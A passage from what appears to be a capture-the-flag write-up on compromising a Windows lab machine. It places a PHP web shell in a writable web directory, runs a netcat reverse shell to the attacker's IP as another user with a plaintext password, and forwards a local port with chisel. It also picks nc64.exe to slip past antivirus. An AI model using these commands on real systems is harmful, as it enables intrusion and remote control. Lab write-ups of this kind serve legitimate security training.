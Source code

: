 No we have write access to `Web` directory, let’s try to do the same.

Let’s remove index.php and put there our reverse PHP web shell and try to access it from browser.

![image.png](image%2022.png)

![image.png](image%2023.png)

I checked quickly for privileges as it is a service account but nothing interesting found.

We got a shell as `svc_apache` let’s run a reverse shell command as `C.Bum` user.

```bash
Invoke-RunasCs -Username C.Bum -Password Tikkycoll_431012284 -Command "C:\tools\nc64.exe -e cmd.exe 10.10.14.17 4444"
```

In case target has AV configured I am gonna use nc64.exe not actual reverse shell.

![image.png](image%2024.png)

That’s it now we have a shell as `C.Bum`.

---

## Privilege Escalation

Now let’s run PowerUp.ps1 as C.Bum user, nothing interesting was found.

![image.png](image%2025.png)

![image.png](image%2026.png)

Looking at open ports we see port 8000 is open too and likely it is an HTTP port but it is open locally:

![image.png](image%2027.png)

Let’s access that port using port forwarding and `chisel`.

```bash
./chisel_1.10.1_linux_amd64 server --reverse -p 8000 #On attacker machine

.\chisel_1.10.1_windows_amd64 client 10.10.14.17:8000 R:8001:127.0.0.1:8000 #On target machine
```

Now I can access the site:

![image.png](image%2028.png)

Running Gobuster on this website I can see pretty much the same content as I saw in `development` directory on a server:

![image.png](image%2029.png)

![image.png](image%2030.png)
